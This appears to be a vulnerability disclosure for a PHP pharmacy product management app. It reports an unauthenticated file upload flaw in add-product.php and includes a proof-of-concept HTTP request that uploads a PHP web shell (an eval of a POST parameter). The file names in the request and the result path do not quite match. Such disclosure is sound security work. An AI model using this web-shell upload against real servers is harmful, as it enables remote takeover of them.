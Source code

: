 The Web-based Pharmacy Product Management System has a file upload vulnerability, which can be used by an attacker to upload malicious files to the server without authentication, thereby damaging or controlling the server.



Source code address：https://www.sourcecodester.com/php/17883/web-based-product-alert-system.html



The vulnerability is located in the /add-product.php file. In line 40, the format of the avatar parameter starts to check whether it belongs to the types in line 41. You can see that there is no restriction on file suffix or other places. Execute and save to the uploadImage/ directory if the requirements of the avatar parameters are met.

![image-20250407114807028](images/image-20250407114807028.png)

Vulnerability verification：

```
POST /product_expiry/add-product.php HTTP/1.1
Host: 192.168.80.152
Content-Length: 808
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.80.152
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzbKYdvGCNA4LqQAY
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.80.152/product_expiry/add-product.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="txtproduct_name"

11111
------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="cmdcategory"


------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="txtexpirydate"


------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="txtqty"

12
------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="txtprice"

1111
------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="avatar"; filename="kru2.php"
Content-Type: image/jpeg

<?php
eval($_POST["pass1"]);

------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="btnsave"


------WebKitFormBoundaryzbKYdvGCNA4LqQAY--

```

![image-20250407114030460](images/image-20250407114030460.png)



The path after the file is uploaded is： http://192.168.80.152/product_expiry/uploadImage/kru.php





![image-20250407114038140](images/image-20250407114038140.png)



